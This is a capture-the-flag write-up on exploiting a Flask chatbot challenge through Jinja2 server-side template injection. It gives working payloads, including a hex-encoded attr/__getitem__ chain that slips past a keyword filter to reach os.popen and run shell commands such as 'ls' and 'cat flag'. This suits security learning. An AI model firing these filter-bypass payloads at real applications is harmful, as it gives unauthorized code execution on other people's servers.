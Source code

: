 # description -> I thought building chatbots would be easy... Seems like my chatbot doesn't understand much.

**No sorce code was provided at this challenge**

## link -> http://34.132.132.69:8006/

**The main page of the website is this**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/05b2e505-16fe-4fa8-92fd-30eb6487a12e)

**I began contemplating Server-Side Template Injection (SSTI) because my input was being reflected. Additionally, the absence of a bot meant there was no immediate risk of someone following a malicious link to execute XSS and steal cookies. 😄**

**Initially, I injected the standard SSTI payload, which is {{7*7}}, and observed the output displaying 49.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/e37a23bc-9ff2-4476-ae3e-a6957288bb12)

**Let's begin the process of determining the backend programming language in use.**

**I initiated the process by inducing errors in the application, attempting to access unintended paths and observing the resulting output.** 

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/010408cf-0c01-4792-9f3d-f6ddc6a49f79)

**So, this error indicates the usage of Python Flask in the backend.**

**Now, let's determine the template engine that is currently in use.** 

**We can employ hacktrick tips (I suggest utilizing them) for assistance.**

**After spending some time interacting with the app, I determined that it is using Jinja2 as the template engine.**

**Let's utilize a basic payload from hacktricks. I employed the following payload: {{ cycler.__init__.__globals__.os.popen('id').read() }}.**

**And this marked the app's response - life is not easy. 😕** 

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/9e6da4db-7316-43f0-8954-d870feac3450)

**Now, our task is to discover the words that this app restricts or blocks.**


**After spending some time interacting with the app, I discovered that it blocks certain words, including ".", "cycler," and also prohibits the use of square brackets [].**


**We require a method to inject a period (.) and square brackets [] without being blocked by the app. Additionally, we need a way to insert the restricted words.**



**After conducting some research, I came across a writeup (link provided below) that utilized a function called attr (a built-in filter in Flask). This function enables concatenation between two values and also understands hexadecimal encoding. This can be our workaround to bypass the blocked words and the period (.). For instance, our payload might look like "sau"|attr("hexvaluees").**



**Additionally, we need a method to represent square brackets ([]). Luckily, there's a function called getitem that we can leverage to select items from the returned array.**



**So, our current objective is to transform the following code: "sai".__class__.__base__.__subclasses__()[147].__init__.__globals__['sys'].modules['os'].popen("hostname").read() using the upper functions for bypassing.**



**it will be like this after convertion {{"sai"|attr("\x5F\x5F\x63\x6C\x61\x73\x73\x5F\x5F")|attr("\x5F\x5F\x62\x61\x73\x65\x5F\x5F")|attr("\x5F\x5F\x73\x75\x62\x63\x6C\x61\x73\x73\x65\x73\x5F\x5F")()|attr("\x5f\x5fgetitem\x5f\x5f")(183)|attr("\x5F\x5F\x69\x6E\x69\x74\x5F\x5F")|attr("\x5F\x5F\x67\x6C\x6F\x62\x61\x6C\x73\x5F\x5F")|attr("\x5f\x5fgetitem\x5f\x5f")('sys')|attr("\x6D\x6F\x64\x75\x6C\x65\x73")|attr("\x5f\x5fgetitem\x5f\x5f")('os')|attr("\x70\x6F\x70\x65\x6E")("ls")|attr("\x72\x65\x61\x64")()}}**


**lets use the uppper payload to find the flag**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/4bb087f6-8847-4217-9ddf-7a2473b25086)

**now lets change ls with cat flag** 


**and pingo we got the  flag**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/982240ef-22dd-45c8-9f65-75923e3fb44a)

used writeup link -> https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f




